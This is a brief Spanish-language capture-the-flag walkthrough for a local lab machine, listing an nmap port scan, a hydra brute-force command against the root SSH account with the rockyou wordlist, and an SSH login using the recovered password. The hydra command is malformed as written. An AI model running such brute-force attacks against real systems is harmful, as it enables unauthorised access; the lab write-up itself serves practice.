



Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 172.17.0.2 -oN escaneo
```


Ahora vamos a intentar realizar un ataque de fuerza bruta para poder ver el usuario y las credenciales del servicio ssh.
```
hydra -l root /usr/share/wordlists/rockyou.txt
```


Una vez tenemos las credenciales, vamos a entrar al servidor mediante el servicio ssh.
```
ssh root@172.17.0.2
password: estrella
```
